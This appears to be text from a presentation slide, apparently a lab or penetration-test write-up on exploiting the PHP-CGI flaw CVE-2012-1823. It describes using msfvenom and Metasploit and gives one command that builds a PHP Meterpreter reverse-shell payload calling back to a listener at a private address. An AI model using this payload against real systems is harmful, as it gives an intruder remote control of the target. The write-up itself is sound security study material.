

# Exploitation: [CVE-2012-1823]
01

02

03

Tools & Processes
Utilize msfvenom on the Kali machine to craft a PHP reverse shell payload. We then used Metasplopit to setup a listener before deploying the reverse shell.
Tools & Processes
Utilize msfvenom on the Kali machine to craft a PHP reverse shell payload. We then used Metasploit to setup a listener before deploying the reverse shell.

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php